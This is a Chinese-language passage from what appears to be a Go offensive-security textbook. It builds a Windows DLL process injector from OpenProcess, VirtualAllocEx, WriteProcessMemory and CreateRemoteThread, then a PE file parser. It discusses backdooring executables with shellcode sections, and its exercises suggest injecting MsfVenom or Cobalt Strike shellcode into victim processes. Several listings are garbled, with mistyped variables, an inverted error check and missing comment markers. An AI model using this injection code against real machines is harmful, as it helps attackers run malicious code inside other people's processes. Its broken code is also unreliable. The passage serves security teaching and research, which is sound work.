	LoadLibAddr uintptr

	RThread uintptr
}

type TOKEN struct {
	tokenHandle syscall.Token
}
```

列表 12-6: 用于持有某些进程注入数据类型的 `Inject` 结构体 (`ch-12/procinjector/winsys/models.go`)

# 列表 12-7 展示了我们的第一个实际函数 `OpenProcessHandle()`。让我们看看下面的代码块并讨论各种细节。

```go
func OpenProcessHandle(i *Inject) error {
	var rights uint32 = PROCESS_CREATE_THREAD |
		PROCESS_QUERY_INFORMATION |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE |
		PROCESS_VM_READ

	var inheritHandle uint32 = 0|i.Pid

	var processID uint32 = i.Pid

	remoteProcessHandle, lastErr := syscall.ProcOpenProcess.Call(
		uintptr(rights), // DWORD dwDesiredAccess

		uintptr(inheritHandle), // BOOL bInheritHandle

		uintptr(processID)) // DWORD dwProcessId

	if remoteProcessHandle == 0 {
		return errors.Wrap(lastErr, "!] ERROR : Can't Open Process")
	}

	fmt.Printf("[-] PID: %v\n", i.Pid)

	fmt.Printf("[-] DLL: %v\n", i.DllPath)

	fmt.Printf("[+] handle: %v\n", unsafe.Pointer(remoteProcessHandle))

	return nil
}
```

列表 12-7: 用于获取进程句柄的 `OpenProcessHandle()` 函数 (`ch-12/procinjector/winsys/inject.go`)

代码首先将访问权限分配给 `uint32` 变量 `rights`①。`PROCESS_CREATE_THREAD` 允许我们在进程上创建线程。紧随其的是 `PROCESS_QUERY_INFORMATION`，允许我们查询进程详情。最后三个访问权限 `PROCESS_VM_WRITE` 和 `PROCESS_VM_READ` 提供了管理进程所需的权限。下一个定义的变量 `inheritHandle`② 决定了进程是否继承现有句柄。我们传入 0 表示我们需要一个新句柄。紧随其的是 `processID`③，包含了目标进程的 PID。在此期间，我们通过 `ProcOpenProcess.Call()` 执行系统调用 ⑥。那些变动的 `uintptr` 值，如果我们查看 `Call()` 函数签名，将被定义为 `uintptr`。此外，返回类型为 `uintptr` 和 `error`。错误类型命名为 `lastErr`⑤，你可以在 Windows 文档中找到它。

# 使用 VirtualAllocEx API 操控内存

现在我们有了远程进程句柄，我们需要一种在远程进程中分配虚拟内存的方法。在写入之前预留并初始化内存区域是必要的。现在来构建它。将列表 12-8 中定义的函数放在列表 12-7 之后（在我们处理注入代码的过程中，我们将一个接一个添加函数）。

```go
func VirtualAllocEx(i *Inject) error {
	var flAllocationType uint32 = MEM_COMMIT | MEM_RESERVE

	var flProtect uint32 = PAGE_EXECUTE_READWRITE

	lpBaseAddress, _, lastErr := ProcVirtualAllocEx.Call(
		uintptr(i.RemoteHandle), // HANDLEProcess

		uintptr(nullRef), // LPVOID lpAddress

		uintptr(i.DLLSize), // SIZE_T dwSize

		uintptr(flAllocationType), // DWORD flAllocationType

		uintptr(flProtect)) // DWORD flProtect

	if lpBaseAddress == 0 {
		return errors.Wrap(lastErr, "!] ERROR : Cant Allocate Memory On Remote Process")
	}

	i.Laddr = lpBaseAddress

	fmt.Printf("[+] Base memory address: %v\n", unsafe.Pointer(i.Laddr))

	return nil
}
```

列表 12-8: 通过 `VirtualAllocEx` 在远程进程中分配内存区域 (`/ch-12/procinjector/winsys/inject.go`)。

与之前的 `OpenProcess()` 系统调用不同，我们通过 `nullRef` 变量引入了一个新细节。`nil` 关键字是 Go 留给空整数的。然而，它是一个带类型的值，这意味着如果不进行类型转换，无法直接将其传递给 `syscall`

这将导致运行时错误或类型转换错误——无论何种情况，都是糟糕的。在这种情况下，修复方法很简单：我们声明一个解析为 0 值的变量，例如整数。现在，该 0 值可以被接收的 Windows 函数可靠地传递并解释为空值。

# 使用 WriteProcessMemory Windows API 写入内存

接下来，我们将使用 `WriteProcessMemory()` 函数向之前使用 `VirtualAlloc()` 函数初始化的远程进程内存区域写入数据。在列表 12-9 中，我们将保持操作简单，通过路径调用 DLL，而不是将整个 DLL 代码写入内存。

```go
func WriteProcessMemory(i *Inject) error {
    var nBytesWritten *byte

    dllPathBytes, err := syscall.BytePtrToString(i.DllPath)

    if err != nil {
        return err
    }

    writeMem, _, lastErr := ProcWriteProcessMemory.Call(
        i.RemoteHandle, HANDLE hProcess
        i.LPaddr, LPVOID lpBase
        uintptr(unsafe.Pointer(dllPathBytes)), // LPCVOID lpBuffer
```


```
        uintptr(i.DLLSize), // SIZE_T nSize

        uintptr(unsafe.Pointer(nBytesWritten))) // SIZE_T

    )

    if writeMem == 0 {

        return errors.Wrap(lastErr, "[!] ERROR: Can't write to process memory.")

    }

    return nil

}
```

列表 12-9: 将 DLL 文件路径写入远程进程内存 (`/ch12/procInjector/winsys/inject.go`)

第一个显著的系统调用函数是 `BytePtrFromString` ①，这是一个便利函数，它消耗一个字符串并返回字节切片的基索引-0 指针位置，我们将其赋值给 `dllPathBytes`。

最后，我们看到了 `unsafe.Pointer` 的作用。`ProcWriteProcessMemory.Call` 的第三个参数在 Windows API 规范中定义为“lpBuffer——指向缓冲区的指针，该缓冲区包含要写入指定进程地址空间的数据”。为了传递接收 Windows 函数中定义的 Go 指针值，我们使用 `unsafe.Pointer` 来绕过类型转换。最后需要说明的一点是，`uintptr` 和 `unsafe.Pointer` ② 是安全的，因为它们都是内联使用的，且没有意将返回值赋值给变量以供后续复用。

# 使用 GetProcessAddress Windows API 查找 LoadLibraryA

`Kernel32.dll` 导出一个函数 `LoadLibraryA()`，它在所有 Windows 版本上可用。微软文档指出，`LoadLibraryA()` 将指定的模块加载到调用进程的地址空间中。指定的模块可能会导致其他模块被加载。在创建执行进程注入所需的远程线程之前，我们需要获取 `LoadLibraryA()` 的内存位置。我们可以通过 `GetProcessAddress()` 函数来实现——它是之前提到的那些辅助函数之一（列表 12-10）。

```go
func GetLoadLibAddress(i *Inject) error {

  var libBytePtr *byte

  libBytePtr, err := syscall.BytePtrFromString("LoadLibraryA") ①

	if err != nil {

		return err

	}

	laddr, _, lastErr := ProcGetProcAddress.Call(

	ModKernel32.Handle(), // hModule

	uintptr(unsafe.Pointer(LibBytePtr))) // LPCSTR LpProcName

	)

	if err == nil {

		return errors.Wrap(err, "[1] ERROR : Can't get process address.")

	}

	i.LoadLibAddr = lladdr

	fmt.Printf("[+] Kernel32.dll memory address: %v\n", unsafe.Pointer(ModKernel32.Handle()))

	fmt.Printf("[+] Loader memory address: %v\n", unsafe.Pointer(i.LoadLibAddr))

	return nil

}
```

列表 12-10: 使用 `GetProcessAddress()` 获取 `LoadLibraryA()` 的内存地址 (`/ch12/procInjector/winsys/inject.go`)

我们使用 `GetProcessAddress()` Windows 函数来识别调用 `Thread` 函数所需的 `LoadLibraryA()` 内存地址。`ProcGetProcAddress.Call()` 取两个参数：第一个是指向 `Kernel32.dll` 的句柄（包含感兴趣的导出函数），第二个是从字面量 "LoadLibraryA" 返回的字节片基指针。

# 使用 CreateRemoteThread 执行恶意 DLL

我们将使用 `CreateRemoteThread()` Windows 函数针对远程进程的内存区域创建一个线程。如果该区域恰好是 `LoadLibraryA()`，我们现在就有办法加载并执行包含恶意 DLL 文件路径的内存区域。查看列表 12-11 中的代码。

```go
func CreateRemoteThread(i *Inject) error {

var thrldId uint32 = 0

var dwCreationFlags uint32 = 0

remoteThread, _, lastErr := CreateRemoteThread.Call(

i.RemoteProcHandle, // HANDLE hProcess

uintptr(nullRef), // LP_SECURITY_ATTRIBUTES lpAttributes

uintptr(nullRef), // SIZE_T dwSize

i.LoadLibAddr, // LPTHREAD_START_ROUTINE lpStartAddress

i.lpaddr, // LPVOID lpParameter

uintptr(dwCreationFlags), // DWORD dwCreationFlags

uintptr(unsafe.Pointer(&remoteThread)), // LPDWORD ThreadId

)

if remoteThread == 0 {

return errors.Wrap(lastErr, "! ERROR : Can't Create Remote Thread.")

}

i.RThread = remoteThread

fmt.Printf("[+] Thread identifier: %v\n", unsafe.Pointer(&thrldId))

fmt.Printf("[+] Thread handle created: %v\n", unsafe.Pointer(i.RThread))

return nil

}
```

列表 12-11: 使用 `CreateRemoteThread` Windows 函数执行进程注入 (`/ch12/procInjector/winsys/inject.go`)

`CreateRemoteThread.Call()` 函数总共接受七个参数，我们在示例中只使用了其中几个。相关的参数是 `RemoteProcHandle`（受害者进程的句柄）、`LoadLibAddr`（线程调用的起始例），以及最后的负载位置内存指针。

# 使用 WaitForSingleObject Windows API 验证注入

我们将使用 `WaitForSingleObject()` Windows 函数识别特定对象何时处于信号状态。这有助于进程注入，因为我们希望等待线程执行以避免提前退出。让我们简单讨论列表 12-12 中的函数定义。

```go
func WaitForSingleObject(i *Inject) error {

var dwMilliseconds uint32 = INFINITE

var dwExitCode uint32

rWaitValue, _lastErr := ProcWaitForSingleObject.Call(

i.RThread, // HANDLE hHandle

uintptr(dwMilliseconds) // DWORD dwMilliseconds

)

if rWaitValue != 0 {

	return errors.Wrap(_lastErr, "[!] ERROR : Error thread state.")

}

success, _lastErr := ProcGetExitCodeThread.Call(

i.RThread, // HANDLE hThread

uintptr(unsafe.Pointer(&dwExitCode)) // LPDWORD lpExitCode

)

if success == 0 {

	return errors.Wrap(_lastErr, "[!] ERROR : Error thread code.")

}

closed, _lastErr := ProcCloseHandle.Call(i.RThread) // HANDLE hObject

if closed == 0 {

	return errors.Wrap(_lastErr, "[!] ERROR : Error closing handle.")

}

return nil

}
```

列表 12-12: 使用 `WaitForSingleObject` 函数确保线程执行成功 (`/ch12/processor/wins/inject.go`)

代码块发生了三个显著事件。首先，`ProcWaitForSingleObject.Call()` 系统调用传递了 12-11 返回的线程句柄。第二个参数传递了 `INFINITE` 等值以关联无限时间。接下来，`ProcGetExitCodeThread.Call()` 判断线程是否成功终止。如果是，`LoadLibraryA` 函数应该已经被调用，我们的 DLL 将被执行。最后，正如我们对任何句柄进行负责清理一样，我们传递了线程句柄使其干净关闭。

# 使用 VirtualFreeEx API 进行清理

我们使用 `VirtualFreeEx()` Windows 函数来释放或提交我们在列表 12-8 中通过 `VirtualAllocEx()` 分配的虚拟内存。清理内存是必要的，考虑到注入到远程进程的代码总体大小（例如整个 DLL），内存区域可能很大。让我们看看这段代码（列表 12-13）。

```go
func VirtualFreeEx(i *Inject) error {

var dwFreeType uint32 = MEM_RELEASE

var size uint32 = 0 // 为了 MEM_RELEASE 所有远程内存，Size 必须为0

rFreeValue, _, lastErr := ProcVirtualFreeEx.Call(

i.RemoteProcHandle, // HANDLE process

i.LPaddr, // LPVOID Address

uintptr(size), SIZE_T Dwsize

uintptr(dwFreeType)) // DWORD dwFreeType

)

if rFreeValue == 0 {

	return errors.Wrap(lastErr, "![1] ERROR : freeing process memory.")

}

	fmt.Println("+ Success: Freed memory region")

return nil

}
```

列表 12-13: 使用 `VirtualFreeEx` Windows 函数释放虚拟内存 (`/ch12/procInjector/winsys/inject.go`)

`ProcVirtualFreeEx.Call()` 取四个参数。第一个是与释放内存的进程相关的远程进程句柄。下一个参数是指向要释放内存位置的指针。

注意，一个名为 `size` 的变量被赋值为 0 值。这是必要的，正如 Windows API 规范中所定义的那，为了将整个内存区域释放回可重新利用的状态。最后，我们传递 `MEM_RELEASE` 操作来完全释放进程内存（以及我们对注入的讨论）。

# 附加练习

与本书的许多其他章节一样，如果你在过程中进行编码和实验，本章将发挥最大的价值。因此，我们通过几个挑战或用以扩展已涵盖思想的可能来为本节结束句号：

- 创建代码注入最重要的方面之一，是维护一个可用的工具链，用于检查和调试进程执行。下载并安装 Process Hacker 和 Process Monitor 工具。然后，使用 Process Hacker 找到 `Kernel32` 和 `LoadLibrary` 的内存地址。顺便，找到进程句柄（handle）并查看完整性级别以及固有权限。现在，将你的代码注入到同一个受害者进程并找到该线程。

- 你可以扩展进程注入示例使其更复杂一些。例如，不要从磁盘文件路径加载有效负载，而是使用 MsfVenom 或 Cobalt Strike 生成 shellcode 并将其直接加载到进程内存中。这将你需要修改 `VirtualAllocEx` 和 `LoadLibrary`。

- 创建一个 DLL 并将所有内容加载到内存中。这与之前的练习类似：异常是你加载的是整个 DLL 而不是 shellcode。使用 Process Monitor 设置路径过滤器、进程过滤器或两者，并观察系统 DLL 的加载顺序。是什么防止了 DLL 排序劫持？

- 你可以使用一个名为 Frida (https://www.frida.re/) 的项目将 Google Chrome V8 JavaScript 引擎注入到受害者进程。它在移动安全从业人员和开发者中都有大量的支持者：你可以用它执行运行时分析、进程内调试和插桩。你还可以在 Windows 等其他操作系统上使用 Frida。创建自己的代码，将 Frida 注入到受害者进程，并使用 Frida 在同一进程中运行 JavaScript。熟悉 Frida 的工作原理需要一些研究，但我们承诺这是非常值得。

# 可移植执行文件

有时我们需要一个载体来交付我们的恶意代码。这可能是一个新创建的执行文件（通过预存代码中的漏洞交付），也可能是系统中已存在的修改过的执行文件，例如。如果我们想修改一个现有的执行文件，我们需要理解 Windows 可移植执行文件（PE）二进制数据格式结构，因为它规定了如何构建执行文件以及执行文件的能力。在本节中，我们将涵盖 PE 数据结构和 Go 的 PE 包，并构建一个 PE 二进制解析器，你可以用它来遍历 PE 二进制的结构。

# 理解 PE 文件格式

首先，让我们讨论 PE 数据结构格式。Windows PE 文件格式是一种通常表示为执行文件、对象代码或 DLL 的数据结构。PE 格式还维护了在操作系统加载 PE 二进制文件期间使用的所有资源引用，包括用于通过序数维护导出函数的导出地址表（EAT）、用于通过名称维护导出函数的导出名称表、导入地址表（IAT）、导入名称表、线程本地存储（thread local storage）和资源管理，等其他结构。你可以在 https://docs.microsoft.com/en-us/windows/win32/debug/pe-format/ 找到 PE 格式规范。图 12-6 显示了

# PE 数据结构：Windows 二进制文件的视觉化表示。



图 12-6：Windows PE 文件格式

在我们构建 PE 解析器时，将检查这些自上而下的每个部分。

## 编写 PE 解析器

在接后的章节中，我们将编写必要的各个解析器组件，以分析 Windows 二进制执行文件中的每个 PE 部分。例如，我们将使用位于 https://telegram.org 的 Telegram 消息应用程序相关的 PE 格式，因为该应用比经常被滥用的 putty SSH 二进制示例更复杂，并且是以 PE 格式分发的。你可以使用几乎任何 Windows 二进制执行文件，我们鼓励你去研究其他文件。

### 加载 PE 二进制文件和文件 I/O

在列表 12-14 中，我们将开始使用 Go 的 PE 包为 Telegram 二进制文件为进一步的解析做好准备。你可以将编写此解析器时创建的所有代码放在 `main()` 函数中的单个文件中。

```go
import (

	"debug/pe"

	"encoding/binary"

	"fmt"

	"io"

	"log"

	"os"

)

func main() {

	f, err := os.Open("Telegram.exe")

	check(err)

	file, err := pe.NewFile(f)

	check(err)

	defer file.Close()

	file.Close()
```


## 列表 12-14：PE 二进制文件的文件 I/O (`/ch-12/peParser/main.go`)

在查看每个 PE 结构组件之前，我们需要使用 Go `pe` 包对初始导入和文件 I/O 进行存根（stub out）。我们使用 `os.Open()` ② 然后使用 `pe.NewFile()` ③ 分别创建一个文件句柄和一个 PE 文件对象。这是必要的，因为我们打算通过使用 `Reader` 对象（如文件或二进制读取器）来解析 PE 文件内容。

## 解析 DOS 头部和 DOS Stub

图 12-6 所示的自上而下 PE 数据结构的第一部分从 DOS 头部开始。以下唯一值始终存在于任何 Windows 执行文件中：`0x4D 0x5A` (`MZ`)，它声明该文件为 Windows 执行文件。所有 PE 文件中都存在的另一个值位于包含 PE 签名的偏移处：`0x3C`。该偏移指向指向 PE 文件。紧随其后的头部是 DOS Stub，它提供了任意值。如果你使用你喜爱的十六编辑器打开 Telegram 应用程序，它应该类似于图 12-7。这些值都存在。

| 偏移 | 解码文本 |
| :--- | :--- |
| 00000000 | MZ |
| 00000010 | ........ |
| 00000020 | ............ |
| 00000030 | ................ |
| 00000040 | ................X.. |
| 00000050 | ..'...ITh |
| 00000060 | is program |
| 00000070 | to run in DOS |
| 00000080 | mode....F... |
| 00000090 | YA.W-N-W-N.. |
| 000000A0 | 20..L-N..O-M..L-M.. |
| 000000B0 | .E.M-N..O-M..L-M.. |
| 000000C0 | .E.G.L-N..O-M..L-M.. |
| 000000D0 | a.B.L-N..M..L-M.. |
| 000000E0 | aD.O.L-N..M..L-N.. |
| 000000F0 | aB.I.L-N..M..L-N.. |
| 00000100 | 21:ML |
| 00000110 | 20..L-N..O-M..L-M.. |
| 00000120 | aF.I.L-N..M..L-N.. |
| 00000130 | aBSW.3-N-M..L-M.. |
| 00000140 | aBOU.7-N-M..L-M.. |
| 00000150 | ........FE.P... |

图 1-7：典型的 PE 二进制格式文件头

到目前为止，我们通过十六进制编辑器查看十六进制表示描述了 DOS 头部和 Stub。现在，让我们看看用 Go 代码解析这些值，如列表 12-15 所示。

```go
dosHeader := make([]byte, 96)
sizeOffset := make([]byte, 4)
// Dec Ascii (searching for MZ)
, err := f.Read(dosHeader) ①
check(err)
fmt.Println("-DOS Header / Stub-")
fmt.Printf("[+ Magic Value: %s%s\n", string(dosHeader[0]), string(dosHeader[1])) ②
```

```go
// Validate PE+0+0 (Valid PE format)
pe_sig_offset := int64(binary.LittleEndian.Uint32(dosHeader[0x3c]))
f.ReadAt(sizeOffset[:], pe_sig_offset)
fmt.Println("---Signature Header-----")
fmt.Printf("+] LFANW Value: %s\n", string(sizeOffset))
```

```go
/* OUTPUT
---DOS Header / Stub-----
+] Magic Value: MZ
----Signature Header-----
+] LFANW Value: PE
*/
```

## 列表 12-15: 解析 DOS Header 和 Stub 值 (`/ch-12/peParser/main.go`)

从文件开头开始，我们使用一个 Go `Reader` 向后读取 96 字节以确认初始签名。回想一下，前 2 个字节提供了 ASCII 值 `MZ`。`pe` 包提供了相关对象，帮助将 PE 数据结构序列化为易于消费的内容。然而，这仍然需要手动二进制读取和位操作功能来实现目标。我们对 `0x3c` 处引用的偏移值进行二进制读取，然后读取由值 `0x50 0x45` (`PE`) 以及后续 2 个 `0x00` 字节组成的 4 字节。

## 解析 COFF 文件头

继续向下查看 PE 结构，紧接 DOS Stub 之后的是 COFF 文件头。让我们使用列表 12-16 中定义的代码来解析 COFF 文件头，然后讨论它一些最有趣的属性。

```go
// 创建 reader 和 COFF Header
sr := io.NewSectionReader(f, 0, 1<<63-1)
```

```go
err := sr.Seek(pe_sig_offset+4, os.SEEK_SET)
check(err)
binary.Read(sr, binary.LittleEndian, &pefile.FileHeader)
```

## 列表 12-16: 解析 COFF 文件头 (`/ch-12/peParser/main.go`)

我们创建了一个新的 `SectionReader`，它从文件位置 0 开始，并读取到 `int64` 的最大值。然后 `sr.Seek(k)` 将位置重置为紧随 PE 签名偏移量和值之后的的起始偏移（回想字面值 `PE` + `0x00` + `0x00`）。最后，我们执行二进制读取，将字节序列化到 `pefile` 对象的 `FileHeader` 结构体中。回想一下，我们在调用 `pe.NewFile()` 时已经创建了 `pefile`。

Go 文档通过列表 12-17 中的结构体定义了类型 `FileHeader`。该结构体与微软记录的 PE COFF 文件格式（定义在 `https://docs.microsoft.com/en-us/win32/debug/pe-format#coff-file-header-object-image/`）对齐得非常好。

```go
type FileHeader {
    Machine uint16
    NumberOfSections uint16
    TimeStamp uint32
    PointerToSymbolTable uint32
    NumberOfSymbols uint32
    SizeOfOptionalHeader uint16
    Characteristics uint16
}
```

## 列表 12-17: Go `pe` 包的原生 `pe` `FileHeader` 结构体

在该结构体，除了 `Machine` 值（换说是 PE 目标系统架构）之外，需要注意的单项是 `NumberOfSections` 属性。该属性包含了节表（Section Table）中定义的节的数量，节表紧跟在头部之后。如果你打算通过添加新节来对 PE 文件设置后门，你需要更新 `NumberOfSections` 值。然而，其他策略可能不需要更新此值，例如在搜索未使用的可执行节（如 `CODE`、`text` 等）中连续的未使用的 `0x00` 或 `0xCC` 值（这是一种定位可用于植入 shellcode 的内存节的方法），因为节的数量保持不变。

在最后，你可以使用以下打印语句来输出一些最有趣的 COFF 文件头值（列表 12-18）。

```go
// 打印 File Header
fmt.Println("----COFF File Header----")
fmt.Printf("+] Machine Architecture: %#x\n", pefile.FileHeader.Machine)
fmt.Printf("+] Number of Sections: %#x\n", pefile.FileHeader.NumberOfSections)
fmt.Printf("+] Size of Optional Header: %#x\n", pefile.FileHeader.SizeOfOptionalHeader)

// 打印节名
fmt.Println("----Section Offsets----")
fmt.Printf("+] Number of Sections Field Offset: %#x\n", pe_sig_offset+6)

// 这是签名头的末尾 (0x7c) + coff (20字节) + oh 0322 (224字节)
fmt.Printf("+] Section Table Offset: %#x\n", pe_sig_offset+0xF8)

// 输出
[----COFF File Header----]
[+] Machine Architecture: 0x14c
[+] Number of Sections: 0x8
[+] Size of Optional Header: 0xe0
[----Section Offsets----]
[+] Number of Sections Field Offset: 0x15e
[+] Section Table Offset: 0x250
```

## 列表 12-18: 将 COFF File Header 值写入终端输出 (`/ch-12/peParser/min.go`)

你可以通过计算 PE 签名偏移 + 4 字节 + 2 字节的偏移量来定位 `NumberOfSections` 值——换句话说，在代码中我们已经定义了 `pe_sig_offset`。

## 解析 Header Header

PE 文件结构中的头部是 Optional Header。可执行文件将有一个 Optional Header 以提供数据。该 Header 包含了许多重要信息，加载器需要这些信息来运行程序。为了开始，我们将只查看几个项。

```go
// 获取 Optional Header
var sizeOfHeader32 = uint16(pefile.OptionalHeader{})
var sizeOfHeader64 = uint16(pefile.OptionalHeader{})

// 读取 Optional Header
switch sizeOfHeader {
case sizeOfHeader32:
    binary.Read(sr, binary.LittleEndian, &oh32)
case sizeOfHeader64:
    binary.Read(sr, binary.LittleEndian, &oh64)
}
```

## 列表 12-19: 读取 Optional Header (`/ch-12/peParser/main.go`)

在此代码块中，我们初始化了两个变量。让我们描述 Optional Header 的一些显著项。对应的打印语句和后续输出在列表 12-20 中。

```go
// 打印 Optional Header
fmt.Printf("[+Optional Header----")
fmt.Printf("+] Entry Point: %#x\n", oh32.EntryPoint)
fmt.Printf("+] ImageBase: %#x\n", oh32.ImageBase)
fmt.Printf("+] Size of Image: %#x\n", oh32.SizeOfImage)
fmt.Printf("+] Sections Alignment: %#x\n", oh32.SectionAlignment)
fmt.Printf("+] File Alignment: %#x\n", oh32.FileAlignment)
fmt.Printf("+] Characteristics: %#x\n", pefile.FileHeader.Characteristics)
fmt.Printf("+] Size of Headers: %#x\n", oh32.SizeOfHeaders)
fmt.Printf("+] Checksum: %#x\n", oh32.CheckSum)
fmt.Printf("+] Machine: %#x\n", pefile.FileHeader.Machine)
fmt.Printf("+] Subsystem: %#x\n", oh32.Subsystem)

/* 输出
[---Optional Header---]
[+] Entry Point: 0x169e682
[+] ImageBase: 0x4000000
[+] Size of Image: 0x3172000
[+] Sections Alignment: 0x10000
[+] File Alignment: 0x200
[+] Characteristics: 0x102
[+] Size of Headers: 0x400
[+] Checksum: 0x2e41078
[+] Machine: 0x14c
[+] Subsystem: 0x2
[+] DLLCharacteristics: 0x81440
*/
```

## 列表 12-20: 将 Optional Header 值写入终端输出 (`ch-12/peParser/main.go`)

假设目标是对 PE 文件设置后门，你需要同时知道 `ImageBase` 和 `EntryPoint`，以便劫持并内存跳转到 shellcode 的位置或由节表条目定义的节节。

`ImageBase`（图像基）是图像加载到内存后第一个字节的地址，而 `Entry Point`（入口点）是相对于 `ImageBase` 的可执行代码地址。`Size of Image`（图像大小）是图像整体加载到内存时的实际大小。此值可能需要调整，以适应图像大小的任何增加，如果你添加了包含 shellcode 的新节，就可能发生这种情况。

`Sections Alignment`（节对齐）提供了节加载到内存时的字节对齐：`0x1000` 是一个相当标准的值。`File Alignment`（文件对齐）提供了节在原始磁盘上的字节对齐：`0x200` (`512K`) 也是一个常见值。为了让代码正常运行，你需要修改这些值，如果你计划手动执行所有操作，则必须使用十六进制编辑器和调试器。

`Optional Header`（可选头）包含许多条目。我们不描述每一个条目，而是建议你浏览 `https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#optional-header-windows-specific-fields-only` 文档，以全面理解每个条目。

## 解析数据目录 (Parsing the Data Directory)

在运行时，Windows 可执行文件必须知道重要信息，例如如何使用链接的 `DLL`，或如何允许其他应用程序使用该可执行文件提供的资源。二进制文件还需要管理细粒度的数据，例如线程存储。这是 `Data Directory`（数据目录）的主要功能。

`Data Directory` 是 `Optional Header` 的最后 128 字节，专门属于二进制镜像。我们使用它来维护一个引用表，其中包含指向数据位置的单个目录的偏移地址以及数据的大小。在 `WINNT.H` 头文件中恰好定义了 16 个目录条目，`WINNT.H` 是一个 Windows 核心头文件，定义了整个 Windows 操作系统使用的各种数据类型和常量。

注意，并不是所有目录都在使用，因为某些目录被微软预留或尚未实现。数据目录的完整列表及其预期用途的详细信息可以参考 `https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#optional-header-data-directories-imageonly`。再次，每个单独的目录关联着大量信息，因此我们建议你花些时间真正研究并熟悉它们的结构。

让我们通过使用列表 12-21 中的代码，探索 `Data Directory` 中的几个目录条目。

```go
// Print Data Directory
fmt.Println("----Data Directory----")

var winnt_datadirs = []string{
  "IMAGE_DIRECTORY_ENTRY_EXPORT",
  "IMAGE_DIRECTORY_ENTRY_IMPORT",
  "IMAGE_DIRECTORY_ENTRY_RESOURCE",
  "IMAGE_DIRECTORY_ENTRY_EXCEPTION",
  "IMAGE_DIRECTORY_ENTRY_SECURITY",
  "IMAGE_DIRECTORY_ENTRY_BASE_RELOC",
  "IMAGE_DIRECTORY_ENTRY_DEBUG",
  "IMAGE_DIRECTORY_ENTRY_COPYRIGHT",
  "IMAGE_DIRECTORY_ENTRY_GLOBALPTR",
  "IMAGE_DIRECTORY_ENTRY_TLS",
  "IMAGE_DIRECTORY_ENTRY_LOAD_CONFIG",
  "IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT",
  "IMAGE_DIRECTORY_ENTRY_IAT",
}
```


```go
    "IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT",

}

```

```go
"IMAGE_DIRECTORY_COM_DESCRIPTOR",
"IMAGE_NUMBEROF_DIRECTORY_ENTRIES",
}

for idx, directory := range oh32.DataDirectory {
    fmt.Printf("[!] Data Directory: %s\n", winnt_datadirs[idx])
    fmt.Printf("[+] Virtual Address: %s\n", directory.VirtualAddress)
    fmt.Printf("[+] Image Size: %s\n", directory.Size)
}

/* OUTPUT
---Data Directory---
[!] Data Directory: IMAGE_DIRECTORY_ENTRY_EXPORT
[+] Virtual Address: 0x2a7b6b0
[+] Image Size: 0x011c6c
[!] Data Directory: IMAGE_DIRECTORY_ENTRY_IMPORT
[+] Virtual Address: 0x2a7c81c
[+] Image Size: 0x12c
--snip--
*/
```

**列表 12-21：解析 Data Directory 的地址偏移和大小** (`ch-12/peParser/main.go`)

Data Directory 列表由微软静态定义，这意味着具体的单个目录条目保持在一个一致顺序的列表中。因此，它们被视为常量。我们使用切片变量 `winnt_datadirs` 来存储单独的目录条目，以便将它们对应到索引位置。具体来说，Go 的 PE 包将 Data Directory 实现为一个结构体对象，因为我们需要遍历每个条目以提取单独的目录条目以及相应的地址偏移和大小。`for` 循环基于 0 索引的，所以我们只需要相对于其索引位置输出每个切片项。

显示到标准输出的目录条目是 `IMAGE_DIRECTORY_ENTRY_EXPORT`（或 EAT）和 `IMAGE_DIRECTORY_ENTRY_IMPORT`（或 IAT）。这些目录中的每一个分别维护了相对于运行的 Windows 可执行文件的导出和导入函数表。进一步观察 `IMAGE_DIRECTORY_ENTRY_EXPORT`，你将看到包含实际表数据偏移的虚拟地址以及其中包含的大小。

## 解析节表 (Parsing the Section Table)

Section Table（节表）是最后一个 PE 字节结构，紧跟在 Optional Header 之后。它包含了 Windows 可执行二进制文件中每个相关节的详细信息，例如可执行代码和初始化数据的位置偏移量。条目数量与 COFF File Header 中定义的 `NumberOfSections` 匹配。你可以在 PE 签名偏移 + `0xF8` 处找到 Section Table。让我们在节编辑器中查看此节（图 12-8）。

| Offset | 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 0A | 0B | 0C | 0D | Decoded |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 0000240 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | | | | | .text |
| 0000250 | 0E | 74 | 65 | 78 | 74 | 00 | 00 | 00 | 00 | 85 | 01 | 00 | 00 | .text |
| 0000260 | 3E | 85 | 01 | 00 | 00 | 00 | 00 | 00 | 00 | | | | | | |
| 0000270 | 00 | 00 | 20 | 20 | 00 | 60 | 72 | 0F | 64 | 71 | 74 | 00 | | | .rodata |
| 0000280 | 1B | 00 | 05 | 00 | 00 | 00 | 55 | 00 | 01 | 0C | 00 | 42 | 85 | 01 | | |
| 0000290 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 20 | 00 | 00 | 00 | 60 | .data |
| 00002A0 | 72 | 64 | 61 | 74 | 00 | 00 | 85 | 6A | 22 | 21 | 00 | 70 | 85 | 01 | | |
